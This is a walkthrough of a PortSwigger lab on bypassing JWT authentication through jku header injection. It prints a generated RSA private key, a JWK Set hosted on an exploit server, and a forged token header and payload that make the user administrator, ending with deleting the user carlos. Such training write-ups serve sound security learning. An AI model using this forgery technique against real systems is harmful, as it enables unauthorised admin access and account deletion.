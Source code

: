 # JWT authentication bypass via jku header injection

## Description

[This lab](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection) uses a JWT-based mechanism for handling sessions. The server supports the `jku` parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

## Reproduction and proof of concept

### Upload a malicious JWK Set

1. In Burp, load the [JWT Editor extension](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) from the BApp store.
2. In the lab, log in to your own account and send the post-login `GET /my-account` request to Burp Repeater.
3. In Burp Repeater, change the path to `/admin` and send the request. Observe that the admin panel is only accessible when logged in as the administrator user.
4. Go to the **JWT Editor Keys** tab in Burp's main tab bar.
5. Click **New RSA Key**.
6. In the dialog, click **Generate** to automatically generate a new key pair, then click **OK** to save the key. Note that you don't need to select a key size as this will automatically be updated later.

```text
{
    "p": "6U8QUkjEgY_xfM0mVnsw-2XZCcXNRI6M-EAqyMJSgUN0AKp6TVwgrcloFj_7VSxHicbc6sXTpQW70iAax6U9wOJWkLhAMUDF_UQ8EeYENKPEakqVJEAOIicSZmB7wV_fYkSfnr64RljApyXSN4O_0kdWxWcgB5Tcuxw3lXqe1-s",
    "kty": "RSA",
    "q": "3HG-c-3y47tWuGIM8KIZY9gbiDXII8IKSCFVxPk7cRMrpueNDgp5-A18JuXWda4tBE1saXDFAaOXAyuAn9FdmseMxYrQkXzlK6u0j8rtzXzq8RVwgRtfXrosWzhoJJyH9cSBYo-tnX6077tgswmKOu-OviJBvyqmm6D3FrjsBB8",
    "d": "Tu2Gznhl1TPU1TaJcj8As6p79W2u3lAjJWv97HrtK-eRRbwm8O88dpeqtik1BBl1OiXTWv-08CTNCF9UBeG-_VsqZ0BaRtnppYeVlgzlGUlNm7-JhjTVXWitODzGopAEGt5SUUgTzau8-lVt1st69YG1_RNrGL7MuVX-B3akpicYTbJxWLzmATRyzeTz8yxAcLH1yXF8428hIlNw59ocplRavjF2mM4_VJxN11UfEBkyaDxm5UnFqSLkaDx5kkfzx56urPCpvsnWq78zFV-k2avEd1R_10API90iU3hbximcEhmBtCJHIPq3JPiU6iShML3Nkg7o6rcb4VfjCcIdBQ",
    "e": "AQAB",
    "kid": "8af37de4-0f37-4997-be5f-8260eb1a7f6b",
    "qi": "I9Lj-UdZ_khdA9YPNYlBOQK84qRL7wYVUw2ZVAK6jdKKX2Eqsr7okHPg6uaAGlxex0F9ZunVK2BnfK-ETpkNkrA_6GOyHJj3Ui35YTkDaHQy6FEaX2DIkTsBtVC2TZ2Q50Yl7wFoVowd7krE0rM_nCGl5DcT7JWnYqfSB4JpNKM",
    "dp": "SWN0Z9256mNj-_TwNU3k939vCRLuYb1RfJl6m9H8b-rO55K4i_MJ2IC9PBp-LamTCzTBsxvtWkB2dz9gDSLeTPklb7p1fsi4PtWi66Jl-kT1eNXjGhcIGxgdQpTg-M_2jYu2hhHKF169oxZTjODlivijw86PlbLux_C1T1DV_Gc",
    "dq": "m_g6WUnVHX2x-Nke8K6wKi2AJVpwFaS3o5s6VRhGD1YR_5A7A-EztObNnbPmjfLDVRT2jI_GQ8ecFBkWc30trlJb7nSt5xIoD0L4iPh6UnZ8wEB8DkzwqFQvCAeb37OEmsYDCVpA63r3x9qaq3InhFV0eGBChmBF6zzzNfd2vd8",
    "n": "yOebf0BX83Le6RNJLXkvAbtezgNxdV259TGE5EH_XzXunOSxjSQtHoQdSkND-QZYyUZXU6kE0iF6wcBFGGhUYu73JR_XqeV1F5ElzypMcV99mWulBRWaByjIOC1ocZMISo5f02Zpq7MReGwuN4Ow-80B_IiyYJqvu3XyRfwfliwN4wnioeIq4Woc94SCgTBbiGRVUzke59KWIg1gmEHg4g2VhQFt0VbyqrYq_QX8lHrN3gau1vtkvTHq6ZlBK7ZQWrKHuWOw_MMbZBJi1nyvKs2VsPJwHEJsuY5ID6e02nFKA2XJxYOK2GHp4UQJaXXfkfvCWsOxoCnPEpHWST_RdQ"
}
```

7. In the browser, go to the exploit server.
8. Replace the contents of the Body section with an empty **JWK Set**:

```text
{
    "keys": [

    ]
}
```

9. Back on the JWT Editor Keys tab, right-click on the entry for the key that you just generated, then select **Copy Public Key as JWK**.
10. Paste the JWK into the keys array on the exploit server, then store the exploit. The result should look something like this:

![JWT](../../_static/images/jwt5.png)

### Modify and sign the JWT

1. Go back to the `GET /admin` request in Burp Repeater and switch to the extension-generated **JSON Web Token message** editor tab.
2. In the header of the JWT, replace the current value of the `kid` parameter with the `kid` of the JWK that you uploaded to the exploit server.
3. Add a new `jku` parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.

```text
{
    "kid": "8af37de4-0f37-4997-be5f-8260eb1a7f6b",
    "alg": "RS256",
    "jku": "https://exploit-0a7b002e04e9fa4dc1f30ce501ad00df.exploit-server.net/.well-known/jwks.json"
}
```

4. In the payload, change the value of the `sub` claim to `administrator`.

```text
{
    "iss": "portswigger",
    "sub": "administrator",
    "exp": 1677593837
}
```

5. At the bottom of the tab, click **Sign**, then select the RSA key that you generated in the previous section.
6. Make sure that the `Don't modify header` option is selected, then click **OK**. The modified token is now signed with the correct signature.
7. Send the request. Observe that you have successfully accessed the admin panel.
8. In the response, find the URL for deleting Carlos (`/admin/delete?username=carlos`). 

![JWT](../../_static/images/jwt6.png)

Send the request to this endpoint to solve the lab.

## Exploitability

An attacker will need to log in to `wiener:peter`; forge a JWT that gives access to the admin panel at `/admin`; then delete the user carlos.
